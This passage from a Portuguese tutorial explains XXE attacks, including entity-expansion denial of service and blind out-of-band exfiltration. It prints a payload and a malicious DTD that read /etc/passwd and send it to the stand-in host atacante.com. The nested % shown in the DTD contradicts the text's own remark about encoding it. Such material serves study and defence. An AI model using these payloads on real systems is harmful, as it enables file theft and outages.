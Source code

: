 Embora o ficheiro XML em si seja muito pequeno (menos de 1 KB), quando o analisador tenta resolver `&lol9;`, ele desencadeia uma reação em cadeia. A entidade `&lol9;` expande para dez entidades `&lol8;`, que por sua vez expandem para um total de 100 entidades `&lol7;`, e assim por diante. No final, o analisador tentará carregar 10^9 (um bilião) de strings "lol" na memória, o que consome rapidamente gigabytes de RAM e ciclos de CPU, levando ao esgotamento de recursos e à queda da aplicação ou do servidor.

Outra forma de ataque DoS consiste em usar uma entidade externa para referenciar um ficheiro que nunca para de devolver dados, como `/dev/random` ou `/dev/zero` em sistemas Unix-like. O analisador tentará ler o ficheiro indefinidamente, consumindo recursos e bloqueando o processo.

## Seção 4: Exploração Avançada em Cenários Cegos (Blind XXE)

Em muitos cenários do mundo real, as aplicações vulneráveis a XXE não refletem o conteúdo das entidades externas nas suas respostas. Isto pode ser uma medida de segurança deliberada ou simplesmente uma consequência da arquitetura da aplicação. Nestes casos, conhecidos como "Blind XXE", a exploração direta (in-band) não é possível. No entanto, a vulnerabilidade ainda pode ser explorada através de técnicas mais sofisticadas que forçam o servidor a revelar informações através de canais secundários. Estas técnicas representam a evolução natural dos ataques em resposta a defesas básicas, demonstrando uma "corrida armamentista" entre atacantes e defensores.

### Exfiltração de Dados Out-of-Band (OOB): Forçando o Servidor a Comunicar com o Atacante

A técnica de exfiltração de dados out-of-band (OOB) é o método mais poderoso para explorar Blind XXE. O objetivo é fazer com que o servidor da vítima inicie uma conexão de rede para um sistema controlado pelo atacante, enviando os dados sensíveis como parte dessa conexão. Esta exploração é tipicamente um processo de múltiplos estágios que depende do uso de entidades de parâmetro XML.

O fluxo de ataque desenrola-se da seguinte forma:

1. **Carga Inicial Injetada**: O atacante envia uma carga XML para a aplicação vulnerável. Esta carga inicial não tenta ler o ficheiro diretamente. Em vez disso, define uma entidade de parâmetro que instrui o analisador da vítima a buscar e processar um DTD externo alojado num servidor controlado pelo atacante. Carga na vítima:
   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE data [<!ENTITY % dtd SYSTEM "http://atacante.com/malicious.dtd"> %dtd;]>
   <data>&exfiltracao;</data>
   ```
   Quando o servidor da vítima processa este XML, ele faz uma requisição HTTP para `http://atacante.com/malicious.dtd`.
2. **O DTD Malicioso Externo**: O ficheiro `malicious.dtd` alojado no servidor do atacante contém a lógica de exfiltração. Ele utiliza uma cadeia de entidades de parâmetro para primeiro ler o ficheiro desejado no servidor da vítima e depois construir uma nova entidade que fará uma requisição de volta para o atacante com o conteúdo do ficheiro. Conteúdo de `malicious.dtd`:
   ```xml
   <!ENTITY % ficheiro SYSTEM "file:///etc/passwd">
   <!ENTITY % avaliar "<!ENTITY % exfiltracao SYSTEM 'http://atacante.com/?conteudo=%ficheiro;'>">
   %avaliar;
   %exfiltracao;
   ```
3. **Análise da Lógica do DTD**:
   - `%ficheiro;`: A primeira entidade de parâmetro, `ficheiro`, é definida para conter o conteúdo do ficheiro `/etc/passwd` do servidor da vítima.
   - `%avaliar;`: A segunda entidade, `avaliar`, é mais complexa. Ela define uma terceira entidade de parâmetro, `exfiltracao`, de forma dinâmica. A entidade `exfiltracao` é definida como uma entidade externa que fará uma requisição HTTP para o servidor do atacante. Crucialmente, o conteúdo da entidade `%ficheiro;` é incorporado como um parâmetro de consulta na URL. A codificação `%` é usada para representar o caractere `%` para evitar erros de análise.
   - `%avaliar;`: A chamada a esta entidade executa a sua definição, o que por sua vez declara a entidade `%exfiltracao;`.
   - `%exfiltracao;`: Finalmente, a chamada a esta entidade faz com que o seu valor seja resolvido. O analisador da vítima faz uma requisição HTTP para `http://atacante.com/?conteudo=root:x:0:0...`, enviando assim o conteúdo do ficheiro para o servidor do atacante.